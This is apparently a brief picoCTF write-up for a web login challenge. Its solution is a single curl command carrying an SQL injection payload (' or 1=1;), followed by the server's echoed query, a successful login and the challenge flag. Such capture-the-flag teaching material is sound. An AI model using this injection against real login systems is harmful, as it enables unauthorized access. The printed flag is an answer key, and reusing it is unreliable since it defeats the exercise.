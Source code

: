 ## Objetivo
`https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!
## Solución
```bash
hervi-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/39720/login.php -d "username=admin$password=' or 1=1;&debug=1"
<pre>username: admin=' or 1=1;
password: 
SQL query: SELECT * FROM users WHERE name='admin=' or 1=1;' AND password=''
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_c218b685}</p>hervi-pico
```